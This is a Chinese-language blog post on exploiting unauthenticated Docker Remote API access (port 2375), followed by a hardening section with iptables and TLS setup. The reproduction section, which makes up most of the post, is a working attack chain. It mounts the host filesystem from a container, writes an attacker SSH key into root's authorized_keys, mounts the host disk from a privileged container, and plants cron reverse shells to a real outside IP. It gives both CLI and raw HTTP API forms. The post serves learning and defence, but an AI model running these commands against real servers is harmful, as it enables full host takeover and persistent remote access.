




+++
title= "Docker Remote Api 未授权利用"
slug= "docker-remote-api-unauthorized-access-exploit"
description= ""
date= "2025-09-22T20:20:51+08:00"
lastmod= "2025-09-22T20:20:51+08:00"
image= ""
license= ""
categories= ["talk"]
tags= ["docker"]

+++

## 概念

一位大佬使用`docker swarm`管理docker集群的时候，发现了管理的docker 节点上会开放一个TCP端口2375，绑定在0.0.0.0上，http访问会返回 `404 page not found`，然后他研究了下，发现这是 Docker Remote API，可以执行docker命令，比如访问 http://host:2375/containers/json 会返回服务器当前运行的 container列表，和在docker CLI上执行 docker ps 的效果一样，其他操作比如创建/删除container，拉取image等操作也都可以通过API调用完成。（不是哥们）

Docker Remote API 是 Docker 提供的 RESTful 接口 ，默认绑定 `2375`（非加密）和 `2376`（TLS 加密）端口，用于远程管理 Docker 容器、镜像、网络等资源。
当管理员错误配置 允许未授权访问 （如直接暴露 `0.0.0.0:2375`），攻击者可通过该 API 完全控制 Docker 环境 ，进而实现 容器逃逸 ，最终接管宿主机。

对于docker中的通信流程，有以下几个重要组件

| **组件**              | **作用**                                                     |
| --------------------- | ------------------------------------------------------------ |
| **Docker Client**     | 用户使用的命令行工具（如 `**docker ps**`），通过 API 与 Daemon 交互。 |
| **Docker Daemon**     | 后台服务（`**dockerd**`），实际管理容器、镜像、存储等资源。  |
| **Docker Remote API** | 提供 REST 接口（默认 `**2375**` 端口），接收 Client 或 HTTP 请求。 |



漏洞触发的原因很简单就是没有正确的去配置：

在 `/etc/docker/daemon.json` 中显式绑定 `0.0.0.0:2375` 且未启用认证：

```json
{
  "hosts": ["tcp://0.0.0.0:2375", "unix:///var/run/docker.sock"]
}
```

## 漏洞复现

首先要明白两点，我们最初只是拿下容器权限，通过挂载目录、容器开启特权模式、等手法逃逸出容器，再写入定时任务或者是写ssh密钥拿下宿主机

### TCP

下载vulhub，里面有专门的环境

```bash
git clone https://github.com/vulhub/vulhub.git

cd docker/unauthorized-rce
docker compose up -d
```

成功开启容器之后访问一下，

```bash
docker -H tcp://156.238.233.93:2375 images
```

可以看到当前存在的镜像，我们可以直接使用，如果不存在的，我们也可以去拉取以及写一些常用的命令

```bash
## 拉取镜像
docker -H tcp://156.238.233.93:2375 pull hello-world:latest

# 查看版本
docker -H tcp://156.238.233.93:2375 version
```

确认漏洞存在





现在拉取一个`alpine`，又小而且方便，先学习直接挂载目录的方式

注：这里所说的宿主机是我服务器上的docker

```bash
docker -H tcp://156.238.233.93:2375 pull alpine:latest

## 启动容器&&获取shell，且把主机根目录挂载到/mnt
docker -H tcp://156.238.233.93:2375 run -it -v /:/mnt alpine /bin/sh
cd mnt/
touch test.txt


## 写入密钥&&链接宿主机
echo -e "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDTrcMkxEAjMBcylqoicvotM7PmMrA+zxPtnRSCAJpjf7+WlDkv0ZScSioOcUJDIH6QuQk5i90sTvfWilCXKR3NeXohO7RKaVD5TWQoRp8/QyGLUuUgWJIPLWucS8WJQ2tQvKPJuFn6JMDqyju43I9hXeonDMx4UiPZbX4Zo8JPabafWJem36zSG7ENS+ThM5qjVhFwecicQlkMbRB7v1mxSijw4EWDANQE0aHiPacPUEyAjqlW3oZzJYeOLcOKaJJHZF+ZZi5UjyPAdHj7tccdjWZttHTyq4f5hTxFEylG5dSCNHNLOTz9KdYiNbAwoOrDtfRThFD59oyuiIpkkIYjSNl+sgVYIk35CLjes1k739Iwk0spQF5UbVyd/ht4vX7BAL9vMeebal+5UaZTNC+RGHLZvdpJQh58zQq17dXJWcUXqt3lzJEdxFTQsa5RMAuajbk1dXRzvxmUeMWj+pHQn1qRKcv+TTjhAwCKZETFbJUqcI94kJi5IYRaHSDSPedPEnswrhcOP0UdMQ0LOaAf86nMtDKhEyS34X9vgR3CtIeC+FV/uhHVqYE/L/JU29JSrfX/RhYjCKbTMFcMnCek3rMEk9ITKJdiSM3TpxastqRD4oCXlecfqxzGxDPxgtu4bi1adPUnVEfZSMbmVF0jmdUOlNrgnWRxY/RQJVVh0w== kali@kali\n\n" > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys

ssh -i ~/.ssh/id_rsa root@ip
```

再来学习下特权模式启动容器的

注：这里所说的宿主机是我的真实服务器

```bash
## 特权模式启动容器
docker -H tcp://156.238.233.93:2375 run -it --privileged alpine  /bin/sh
## 特权模式下挂载目录
fdisk -l
/ # fdisk -l
Found valid GPT with protective MBR; using GPT

Disk /dev/vda: 167772160 sectors,     0
Logical sector size: 512
Disk identifier (GUID): 0acf01cc-e7a5-4512-837c-267847b04dae
Partition table holds up to 128 entries
First usable sector is 34, last usable sector is 167772126

Number  Start (sector)    End (sector)  Size Name
     1          227328       167772126 79.8G 
    14            2048           10239 4096K 
    15           10240          227327  106M 


# 分区1是主要分区 
mkdir /mnt
mount /dev/vda1 /mnt
cd mnt/root
tac /flag
```



写入定时任务，先创建一个shell.sh

```bash
#!/bin/bash

bash -c "bash -i >& /dev/tcp/160.30.231.213/9999 0>&1"
```

然后写入，每分钟反弹一次

写入到`/var/spool/cron/root`（centos系统）或`/var/spool/cron/crontabs/root`(ubuntu系统)

```bash
chmod +x shell.sh 
echo '*/1 * * * *  /shell.sh' >> /mnt/var/spool/cron/crontabs/root
```

普通模式下，容器的权限和功能受到严格限制，隔离机制具体表现为：

1. 挂载空间隔离 ：容器中的挂载命令作用于容器自己的命名空间，无法操作宿主机的设备和文件系统。
2. 设备访问受限 ：容器无法访问宿主机的 `/dev` 设备，因此不能挂载宿主机的分区（如 `/dev/vda1`）。
3. 进程权限受限 ：普通模式的容器内进程只能操作容器自身的文件系统，无法突破到宿主机。

而特权模式通过 `--privileged` 选项解除隔离，导致：

- 容器获取宿主机设备访问权限（包括块设备和文件系统）。
- 容器内的挂载操作直接影响宿主机的文件系统。

看起来说，第二个特权模式运行很明显更加危险，但是这是因为我这里套了一层的原因，如果他是直接在服务器上开启docker swarm的未授权访问的话，那这两种情况的结果无疑都是打到服务器。

### http

http其实和TCP是一样的，我们访问2375端口返回404，再访问`/containers/json`就可知漏洞存活。

有几个接口是可以利用，介绍一下各个的用处

`/containers/create`：创建容器

`/containers/Containers Id/start`：启动容器

`/containers/Containers Id/exec`：创建执行命令的实例

所以整体的利用流程依旧和TCP的一致，创建容器挂载mnt目录

```http
POST /containers/create HTTP/1.1
Host: 40.*.*.*:4243
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 130

{"HostName":"remoteCreate","User":"root","Image":"nginx/ntpd:4.2.6p5","HostConfig":{"Binds":["/:/mnt"],
"Privileged":true}}


HTTP/1.1 201 Created
Api-Version: 1.38
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/18.06.1-ce (linux)
Date: Mon, 18 Apr 2022 09:00:07 GMT
Content-Length: 90
Connection: close

{"Id":"bf66daca7460399b526679ef828e9e23af1406363051163d32f528c3fdf035ed","Warnings":null}
```

启动容器

```http
POST /containers/bf66daca7460399b526679ef828e9e23af1406363051163d32f528c3fdf035ed/start HTTP/1.1
Host: 40.*.*.*:4243
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


HTTP/1.1 204 No Content
Api-Version: 1.38
Docker-Experimental: false
Ostype: linux
Server: Docker/18.06.1-ce (linux)
Date: Mon, 18 Apr 2022 09:04:19 GMT
Connection: close
```

创建执行命令的实例

```http
POST /containers/bf66daca7460399b526679ef828e9e23af1406363051163d32f528c3fdf035ed/exec HTTP/1.1
Host: 40.*.*.*:4243
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 556

{
"AttachStdin":true,
"AttachStdout":true,"AttachStderr":true,
"DetachKeys":"ctrl-p,ctrl-q",
"Tty":false,
"Cmd":["sh","-c","echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDdHlDQaOntjY21v3duDAd0XTezJCEzqOviJJvyFaguKS4ei+oOuilwilgZ0GRS6Vr92gBvbq5wELIH5D0cC/BoC6ZeTX34Wk0IIoLhC+Zrx2RtFYoQDdZQvl+3ZeSdwA7zce5uFhL70rGAajTcn17b0eVyYWaBGvGqskd/0ijEDDRQHP3vq5CillyBtkwKIyxJbE5kNI2kT8mOOHHJRRPNcL1ZxYTztYHEbzpKhRqgdzfDhCkZ8bOKduCwedA7wNJN65/dwPu/mvmahz8seHh/hMhrcRd5vblGUVtrCcgGa+IleAc38TxsNNdPJ4jvKJn++sL5ea3Bgxan5K9LPeRT ' >> /mnt/root/.ssh/authorized_keys"]
}


HTTP/1.1 201 Created
Api-Version: 1.38
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/18.06.1-ce (linux)
Date: Mon, 18 Apr 2022 09:08:20 GMT
Content-Length: 74
Connection: close

{"Id":"1a2b0cdf0731a3d4abdc21df66dcdb025cc375756e978e66dd37cbf7090bca13"}
```

执行命令实例

```http
POST /exec/1a2b0cdf0731a3d4abdc21df66dcdb025cc375756e978e66dd37cbf7090bca13/start HTTP/1.1
Host: 40.*.*.*:4243
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 27

{"Detach":true,"Tty":false}

HTTP/1.1 200 OK
Api-Version: 1.38
Docker-Experimental: false
Ostype: linux
Server: Docker/18.06.1-ce (linux)
Date: Mon, 18 Apr 2022 09:10:42 GMT
Content-Length: 0
Connection: close
```

就成功写入了，这里有个小小的问题，就是容器和实例，容器相当于我们的服务器，实例就是平时的命令执行

如果写入ssh密钥不能成功链接的话，可以写定时任务

```http
POST /containers/bf66daca7460399b526679ef828e9e23af1406363051163d32f528c3fdf035ed/exec HTTP/1.1
Host: 40.*.*.*:4243
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 221

{
"AttachStdin":true,
"AttachStdout":true,"AttachStderr":true,
"DetachKeys":"ctrl-p,ctrl-q",
"Tty":false,
"Cmd":["sh","-c","echo '03 11 * * * bash -i >& /dev/tcp/40.*.*.*/4444 0>&1' >> /mnt/var/spool/cron/root"]
}


HTTP/1.1 201 Created
Api-Version: 1.38
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/18.06.1-ce (linux)
Date: Tue, 31 May 2022 02:56:50 GMT
Content-Length: 74
Connection: close

{"Id":"12ed97fad32d2d592f45ff1eff3ffee7858e322cddc64820d555e0e779205f6a"}
```

再执行实例就可以了

## 修复

### 1. 公网防护

如果2375端口暴露在公网：

- **禁止外网访问**：最简单和有效的方式是完全关闭2375端口的外部访问。
- **设置白名单**：仅允许特定的IP地址范围访问2375端口。

万一Docker Swarm部署在可接触公网的环境中，用户应遵循官方文档的建议，避免在公网使用Swarm。

但是如何去做呢，这里挨着把命令写写，

使用iptables限制访问

```bash
sudo iptables -A INPUT -p tcp --dport 2375 -s 0.0.0.0/0 -j DROP

sudo iptables -A INPUT -p tcp --dport 2375 -s <TRUSTED_IP> -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 2375 -j DROP
```

修改配置文件`/etc/docker/daemon.json`，只给可信的IP

```json
{
  "hosts": ["tcp://<TRUSTED_IP>:2375", "unix:///var/run/docker.sock"]
}
```

### 2. 内网攻击防护

对于已在内网中的攻击者，仅依赖第一步的措施仍然不足。建议实施以下防护策略：

2.1 使用TLS认证

- 配置TLS：通过配置TLS，确保Docker CLI在连接到Docker daemon之前，首先进行身份认证。仅信任由受信CA签发的证书能提高安全性。可以参考官方文档《Overview Swarm with TLS》和《Configure Docker Swarm for TLS》来正确配置TLS。
- 注意事项：你提到的实验中发现未验证证书时仍能访问，表明TLS配置需确保“验证”选项已启用。如果TLS配置未正确实施，可能造成安全隐患。

2.2 网络访问控制

- 合理的端口访问控制：根据Docker官方文档，配置Swarm manager和Swarm nodes所需的访问规则。比较理想的配置是：

- 仅允许信任的Swarm设备相互通信。理想情况下，2375端口应限于Swarm manager本身。

- 多条规则的维护：确实，管理有多个Swarm manager的规则可能复杂，但这是保持安全的必要措施，尤其在多实例环境下。

修改 `/etc/docker/daemon.json`：

```json
{
  "hosts": ["tcp://0.0.0.0:2376", "unix:///var/run/docker.sock"],
  "tls": true,
  "tlsverify": true,
  "tlscacert": "/etc/docker/certs/ca.pem",
  "tlscert": "/etc/docker/certs/server-cert.pem",
  "tlskey": "/etc/docker/certs/server-key.pem"
}
```

生成对应的证书

```bash
mkdir -p /etc/docker/certs

# 创建 CA 证书
openssl genrsa -out /etc/docker/certs/ca.key 4096
openssl req -new -x509 -days 365 -key /etc/docker/certs/ca.key -sha256 -subj "/CN=docker-ca" -out /etc/docker/certs/ca.pem

# 创建服务器证书
openssl genrsa -out /etc/docker/certs/server-key.pem 4096
openssl req -new -key /etc/docker/certs/server-key.pem -subj "/CN=docker-server" -out server.csr
openssl x509 -req -days 365 -sha256 -in server.csr -CA /etc/docker/certs/ca.pem -CAkey /etc/docker/certs/ca.key -CAcreateserial -out /etc/docker/certs/server-cert.pem
```

再重启docker利用对应的证书进行连接

```bash
sudo systemctl restart docker

docker --tlsverify \
  --tlscacert=/path_to_certs/ca.pem \
  --tlscert=/path_to_certs/client-cert.pem \
  --tlskey=/path_to_certs/client-key.pem \
  -H tcp://<DOCKER_HOST>:2376 info
```

总结一下：

- **不暴露2375端口于公网**：这是最基本的安全防护。
- **内网中，严格的访问控制和TLS结合使用**：在多节点环境中，保证各节点仅在信任的网络设备间互通。通过防火墙等手段加强网络层安全。

> https://www.cnblogs.com/hgschool/p/17030399.html
>
> https://www.freebuf.com/articles/container/344316.html
>
> https://jishuzhan.net/article/1689189010888462338
>
> [https://chenxuuu.github.io/wooyun_articles/drops/%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8.html](https://chenxuuu.github.io/wooyun_articles/drops/新姿势之Docker Remote API未授权访问漏洞分析和利用.html)
>
> https://zhuanlan.zhihu.com/p/142798377
>
> https://www.cnblogs.com/-mo-/p/11529387.html
>
> https://blog.csdn.net/weixin_40412037/article/details/120450783
